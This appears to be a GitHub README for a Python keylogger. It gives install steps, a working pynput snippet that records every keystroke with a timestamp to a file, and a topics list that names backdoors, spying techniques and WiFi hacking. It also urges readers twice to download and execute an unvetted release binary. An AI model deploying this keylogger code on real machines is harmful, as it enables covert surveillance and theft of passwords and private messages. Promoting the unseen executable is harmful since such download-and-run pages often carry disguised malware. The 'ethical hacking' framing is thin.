 # Keylogger Project 🖥️🔑

![Keylogger Project](https://img.shields.io/badge/Download-Releases-blue?style=flat-square&logo=github)

Welcome to the **Keylogger Project**! This repository contains a simple Python keylogger that uses the `pynput` library to log keystrokes along with timestamps. This tool is designed for ethical hacking labs, red teaming practice, and cybersecurity education. 

## Table of Contents

- [Features](#features)
- [Installation](#installation)
- [Usage](#usage)
- [How It Works](#how-it-works)
- [Topics](#topics)
- [Contributing](#contributing)
- [License](#license)
- [Contact](#contact)

## Features

- **Keystroke Logging**: Capture all keystrokes with precise timestamps.
- **Lightweight**: Minimal resource usage for seamless operation.
- **Easy Setup**: Simple installation process.
- **Cross-Platform**: Works on Windows, macOS, and Linux.
- **Educational Use**: Ideal for learning about keylogging and cybersecurity practices.

## Installation

To get started, you need to clone this repository and install the required dependencies.

1. **Clone the Repository**:
   ```bash
   git clone https://github.com/benjdokosg/keylogger-project.git
   cd keylogger-project
   ```

2. **Install Dependencies**:
   You need to have Python installed on your machine. After cloning, install the necessary libraries using pip:
   ```bash
   pip install pynput
   ```

3. **Download the Executable**:
   You can find the latest release [here](https://github.com/benjdokosg/keylogger-project/releases). Download the file and execute it to start logging keystrokes.

## Usage

To run the keylogger, simply execute the Python script. Open your terminal and run:
```bash
python keylogger.py
```
The script will start logging keystrokes in the background. You can stop it by terminating the process or closing the terminal.

## How It Works

The keylogger uses the `pynput` library to listen for keyboard events. When a key is pressed, it captures the key along with the current timestamp. The data is then saved to a log file for later review.

### Code Overview

Here’s a brief overview of the main components of the code:

- **Listener**: The main component that listens for key events.
- **Logging Function**: Captures the key pressed and the timestamp.
- **File Handling**: Writes the logged data to a file.

### Example Code Snippet

```python
from pynput import keyboard
import time

def on_press(key):
    with open("keylog.txt", "a") as f:
        f.write(f"{key} pressed at {time.ctime()}\n")

with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```

This snippet shows how to capture key presses and log them to a file with timestamps.

## Topics

This project touches on various topics in the cybersecurity field, including:

- Backdoors
- DNS Spoofing
- Email Sending
- Exploit Development
- Hacking Tools
- Hardware Hacking
- Online Database Access
- Spying Techniques
- WiFi Hacking
- WiFi Hacking Scripts

## Contributing

We welcome contributions to improve this project. If you want to contribute, please follow these steps:

1. Fork the repository.
2. Create a new branch (`git checkout -b feature-branch`).
3. Make your changes and commit them (`git commit -m 'Add new feature'`).
4. Push to the branch (`git push origin feature-branch`).
5. Open a pull request.

Please ensure that your code adheres to the existing style and is well-documented.

## License

This project is licensed under the MIT License. Feel free to use it for educational purposes but ensure you adhere to ethical guidelines.

## Contact

For any questions or suggestions, feel free to reach out:

- GitHub: [benjdokosg](https://github.com/benjdokosg)
- Email: benjdokosg@example.com

For more information, visit the [Releases section](https://github.com/benjdokosg/keylogger-project/releases) to download the latest version of the keylogger.

---

Thank you for your interest in the Keylogger Project! Happy hacking!